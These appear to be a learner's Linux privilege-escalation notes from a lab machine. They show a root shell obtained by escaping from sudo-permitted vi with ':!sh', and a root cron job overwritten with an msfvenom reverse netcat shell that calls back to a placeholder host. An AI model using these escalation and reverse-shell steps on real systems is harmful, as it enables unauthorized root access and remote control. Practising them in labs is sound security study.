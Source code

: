 




### Escaping Vi



sudo -l 
```
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
user8@polobox:/home/user3$ sudo vi
```
then type to open shell as root:
```
:!sh
```
	


### Cronjob
```
cat /etc/cronjob
```


Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

\# = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

For Example,

\#  m   h dom mon dow user  command
```
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```


replace content of file with reverse shell:
```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
